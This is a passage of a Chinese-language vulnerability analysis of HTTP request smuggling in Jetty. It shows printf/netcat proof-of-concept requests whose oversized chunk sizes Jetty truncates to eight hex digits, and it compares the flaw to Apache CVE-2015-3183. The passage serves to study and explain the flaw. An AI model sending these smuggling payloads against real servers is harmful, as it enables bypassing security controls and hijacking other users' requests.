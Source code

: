 我们利用以下代码发送请求：

```plain
printf 'POST /?test=4973 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'100000000\r\n'\
'\r\n'\
'POST /?test=4974 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994|grep "HTTP/1.1"
```

然后我们可以得到两个 200 响应可是按照 chunk 的标准，虽然第二个部分看起来是一个请求，但是实际上应该被算在 chunk data 当中，而问题就在这，jetty 返回了两个请求，把 100000000 当作了 0，也就是 chunk end 部分，所以就出现了两个请求的原因。

我们可以再进行一些尝试：

```plain
printf 'POST /?test=4975 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'1ff00000008\r\n'\
'abcdefgh\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'POST /?test=4976 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994|grep "HTTP/1.1"
```

这里我们依然得到了两个 200 响应，也就是第一个 chunk size 1ff00000008 被 jetty 截断成了 8，也就是 chunk data 部分只有`abcdefgh`，所以就返回了两个响应。

与 Apache CVE-2015-3183 类似，jetty 只会取 chunk size 的最后 8 个字节：

```plain
ffffffffffff00000000\r\n
            ^^^^^^^^
            00000000 => size 0

1ff00000008\r\n
   ^^^^^^^^
   00000008 => size 8
```
